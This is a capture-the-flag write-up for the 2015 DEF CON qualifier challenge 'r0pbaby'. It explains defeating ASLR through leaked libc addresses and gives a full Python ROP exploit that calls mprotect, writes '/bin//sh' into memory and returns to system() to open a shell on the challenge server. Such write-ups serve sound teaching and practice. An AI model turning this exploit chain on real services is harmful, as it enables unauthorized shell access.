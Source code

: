 ### Solved by barrebas and Swappage

`r0pbaby` was a binary exploitation challenge in the LegitBS CTF. We were given a binary and a place to connect to. Upon running and examing the binary, it seems like this is a very easy ROP challenge. The binary will give libc function addresses upon request; this makes it easy to defeat ASLR. The option of getting libc's base address seems to return some strange address. Finally, the third option asks for a buffer, which is then copied to the stack, overwrites the saved return address and basically kicks off our ROP chain... couldn't be easier, right? 

```bash
bas@tritonal:~/tmp/ropbaby$ file r0pbaby
r0pbaby: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, stripped
bas@tritonal:~/tmp/ropbaby$ gdb ./r0pbaby 
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : ENABLED
NX        : ENABLED
PIE       : ENABLED
RELRO     : disabled
```

So exploiting it should be relatively easy. The binary itself contains very little useable gadgets. We can defeat ASLR by leaking function addresses. There is, however, the problem of finding the correct libc *version*. This took us some time to figure out, but luckily Swappage found an [offline tool to identify libc](https://github.com/niklasb/libc-database). It was `libc6_2.19-0ubuntu6.6_i386`. Another nice tool to identify libc is [libcdb.com](http://libcdb.com). After identifying the right libc version, we could find all the necessary gadgets via [ropshell.com](http://ropshell.com). Our plan was to `mprotect()` a certain region of memory as RWX, then `read()` in some shellcode and return to it. 

Now, the plan fell through. For some reason, the `read()` syscall to read in the shellcode failed. Instead, I switched the exploit around a bit. We have access to `system()`, so I set up a ROP chain to `mprotect()` the first 0x1000 bytes of libc as RWX. Then, I wrote out the string `/bin//sh` to memory. At this point, it was getting late and I could have just as easily written out `/bin/sh,0` to memory... Finally, returning to `system("/bin//sh")` spawned a shell, allowing us to read the flag!

```python
import socket, struct, re, time

def p(x):
    return struct.pack('<Q', x)
    
def get_function(s, name):
    s.send('2\n')
    s.send(name+'\n')
    time.sleep(0.50)
    data = s.recv(1000)

    m = re.findall('(0x0000.*)', data)
    print m
    return int(m[0], 16)
    
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
#s.connect(('localhost', 4000))
s.connect(('r0pbaby_542ee6516410709a1421141501f03760.quals.shallweplayaga.me', 10436))

print s.recv(1000)
print s.recv(1000)

# get some address where we'll store the shellcode
SYSTEM = get_function(s, "system")
READ = get_function(s, "read")
MPROTECT = get_function(s, "mprotect")

# this offset was found like so:
# $ nm -D ./libc-2.19.so |grep mprotect
# 00000000000f4a20 W mprotect
LIBC_BASE = MPROTECT - 0xf4a20

print "[!] libc_base  = 0x%X" % LIBC_BASE
print "[!] system()   = 0x%X" % SYSTEM
print "[!] read()     = 0x%X" % READ
print "[!] mprotect() = 0x%X" % MPROTECT

POPRDX = LIBC_BASE + 0x000bcee0
POPRAX = LIBC_BASE + 0x00048858
POPRSI = LIBC_BASE + 0x00024805
POPRDI = LIBC_BASE + 0x00022b1a
SYSCAL = LIBC_BASE + 0x000c1e55
MOVMEM = LIBC_BASE + 0x0002fa03 #: mov [rax], rdx; ret

# kick off ROP chain
s.send('3\n')
print s.recv(1000)


# build ROP chain
# first, mprotect() a certain area
payload = "A"*8
payload += p(POPRDX)
payload += p(7)
payload += p(POPRSI)
payload += p(0x1000)
payload += p(POPRDI)
payload += p(LIBC_BASE)
payload += p(POPRAX)
payload += p(10)
payload += p(SYSCAL)

# secondly, write '/bin' to memory via MOVMEM gadget
payload += p(POPRDX)
payload += p(0x6e69622f)
payload += p(POPRAX)
payload += p(LIBC_BASE)
payload += p(MOVMEM)

# thirdly, write '//sh' to memory
payload += p(POPRDX)
payload += p(0x68732f2f)
payload += p(POPRAX)
payload += p(LIBC_BASE+4)
payload += p(MOVMEM)

# finally, return-to-system and invoke a shell
payload += p(POPRDI)
payload += p(LIBC_BASE)
payload += p(SYSTEM)

length = "%d" % (len(payload)+1)
print "[!] sending " + length + " bytes"
s.send(length + '\n')

time.sleep(0.5)
s.send(payload + '\n')

print s.recv(1000)

# interact with the shell
import telnetlib
t = telnetlib.Telnet()
t.sock = s
t.interact()
s.close()
```

Putting it all together:

![](/images/2015/defcon/r0pbaby/r0pbaby.png)

This was an easy one, but still took me a while to get back into binary exploitation. Especially getting the correct libc version took longer than necessary and my thanks go out to Swappage for persisting and finding the correct version!

